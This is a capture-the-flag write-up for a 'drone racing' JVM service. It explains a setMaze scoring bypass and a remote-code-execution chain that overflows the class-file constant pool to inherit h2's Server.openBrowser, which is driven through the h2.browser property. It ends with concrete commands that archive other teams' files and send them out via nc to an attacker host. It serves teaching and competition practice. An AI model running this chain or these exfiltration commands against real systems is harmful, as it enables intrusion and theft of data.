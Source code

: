 # Drone racing

The "drone racing" service allows users to create maze-like levels and submit drone programs that will navigate a drone in a race from one corner of the maze to another.

There is HTTP REST API which supports the following requests:
* `POST /api/users` — register a new user
* `POST /api/users`/login — login

Other endpoints are only available for authenticated users:

* `POST /api/levels` — create a new level
* `GET /api/levels` — retrieve all levels
* `POST /api/programs` — submit a program for a level
* `GET /api/programs` — retrieve the list of your programs for a level
* `POST /api/runs` — run one of your programs with some params
* `GET /api/runs` — retrieve all runs for some level, see the scoreboard of competitors

Flags from the checksystem are embedded into drone programs: once they finish the level, they print a flag to stdout.

There are two known vulnerabilities: one of them allows to win any competition for any level, the other one allows to steal flags.

## Calling setMaze() is available from within the program

You can call the `setMaze(String)` method from your drone program. This method is used by the code runner on the server side to set the maze for the current program. If you run `setMaze(".")`, you will win with 0 moves.

This vulnerability doesn't allow to steal flags.

## RCE by overriding the base class of a generated class file

The second vulnerability is more interesting.

Programs passed to the server are compiled into JVM bytecode. In the first pass the program is compiled into commands for the abstract stack machine. In the second pass the abstract stack machine program is compiled into JVM code via ObjectWeb ASM library. While compiling into JVM, the name of the resulting class is a placeholder containing "ae/hitb/proctf/drone_racing/DroneRacingProgram".

JVM uses a pool of constants — a special section in the .class file that contains all the constants used in the program. Constants are typed and follow each other. One of the types is UTF-8 string. The constants in the pool are unique, so despite the fact that the class name is used more than once in the bytecode, the corresponding string is stored only once, somewhere in the constant pool.

Another interesting type is ClassName. ClassName constants don't hold the actual string but rather a reference (index in the constant pool) to a UTF-8 string. So, when the class name is processed, it first takes the reference and follows it to retrieve the actual string.

Once the class file has been generated, the service replaces a placeholder name in the constant pool with the actual title of the program. The service checks that the title of the program does not exceed 46 characters — the length of the placeholder. If the program title is shorter, it is padded to 46 characters.

BUT. The class name is checked as a string, but is then stored in the .class file as a UTF-8 encoded byte sequence. Therefore we can overflow the constant if we use non-ASCII chars. We can not use 4-byte UTF-8 characters (because .class files have a *peculiar* UTF-8 implementation), but we can use 3-byte UTF-8 characters and overflow up to 2 * 46 bytes!

The class name constant in the constant pool is followed by the base class name, so we can overflow the base class name to inherit some useful methods! But we have to preserve the base class name length, otherwise all constant pool references will become invalid and the program won't launch. Luckily, the actual layout of constant pool is as follows:
```
...
"class name",
class name reference,
"base class name",
base class name reference,
...
```

So what we can do is we can store the desired base class elsewhere in the constant pool, then overwrite the original base class name with junk bytes, and then overwrite the base class name _reference_ to make it point to our desired base class name.

Okay, now we need to find a class in our assembly which will help us achieve running arbitrary code. So we extract all class files from jars and grep them for "Runtime.getRuntime().exec()" calls. There are 3 methods in 3 classes with this call:

1. `org.eclipse.jetty.servlets.CGI.exec()` — not suitable, because it has complex arguments (`(File command, String pathInfo, HttpServletRequest req, HttpServletResponse res)`), which we can't pass from our program
2. `org.h2.util.Profiler.exec(String... args)` — this method looks good, but it's private, and we can't call private methods from the child class.
3. `org.h2.tools.Server.openBrowser(String url)` — yes! It's a public static method with one String argument. We can call it from our class. But... It does not execute arbitrary commands, it just opens a browser.

Let's refer to the source code of this last method: https://github.com/h2database/h2database/blob/master/h2/src/main/org/h2/tools/Server.java#L649
It has complex logic for defining which program constitutes a "browser". We can see that if browser name contains `"%url"`, that browser name is split by a comma, `%url` is replaced with `url` (the method argument), and the resulting command is executed. Okay, now how we can define a browser name?

Let's see at
`String browser = Utils.getProperty(SysProperties.H2_BROWSER, null);`

`Utils.getProperty` is a method from https://github.com/h2database/h2database/blob/master/h2/src/main/org/h2/util/Utils.java#L722. It looks into Java system properties. But wait a second! We can define these properties with run params when we launch our drone program!

To recap, this is the outline of the exploit:
1. Register the user and log into the service;
2. Upload a drone program which is constructed like this:
    1. title has non-ASCII chars to overflow the class name and change the base class to "h2/tools/Server";
    2. `setMaze(String)` function is defined in the program, otherwise running the code will fail before start;
    3. there's a call to `openBrowser("programs/")` somewhere in the program;
3. Run the drone program with params `"h2.browser": "tar,czf,classes.tar.gz,%url"`

Once run, this program will archive all the class files uploaded by all participants and put the archive to classes.tar.gz. It remains only to steal this file. It can be made i.e. via running `"sh,-c,"base64 classes.tar.gz | nc <your_server> <port>"` the same way. Also you need to get and decode file on the remote side (i.e. via `nc -l -p <port> | base64 -d > classes.tar.gz`)
